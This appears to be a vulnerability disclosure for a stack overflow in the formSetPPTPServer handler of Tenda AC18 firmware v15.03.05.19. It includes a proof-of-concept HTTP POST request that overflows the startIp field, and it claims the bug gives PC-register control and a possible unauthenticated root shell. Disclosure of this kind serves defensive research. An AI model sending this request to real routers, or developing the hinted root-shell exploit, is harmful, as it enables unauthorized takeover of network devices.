




# Firmware has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/default.html
- Firmware download address ：https://www.tenda.com.cn/download/detail-2683.html
- Version ：Tenda AC18 v15.03.05.19

## Product Information

In the function `formSetPPTPServer`, the value of `startIp` that we input is passed into `sscanf`, and because there is no limit on the input length, an attacker can inject an excessively long string into `startIp` to overwrite data in subsequent stack or heap memory. Additionally, since `v15` is a pointer, it can point to any memory address. If the length of the string in `startIp` exceeds the length of the memory block pointed to by `v15`, it can cause a pointer out-of-bounds error. This could result in application crashes, memory leaks, or be exploited by attackers to execute arbitrary code.





## Analyse



In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/SetPptpServerCfg HTTP/1.1
Host: 192.168.3.3
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 572
Origin: http://192.168.3.3
Connection: close
Referer: http://192.168.3.3/pptp_server.html?random=0.7597721261057291&
Cookie: password=wrq5gk

serverEn=1&startIp=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&endIp=10.0.0.200&mppe=0&mppeOp=undefined
```

As shown in the figure above, we can hijack PC registers.

Finally, you can write exp to get a stable root shell without authorization.


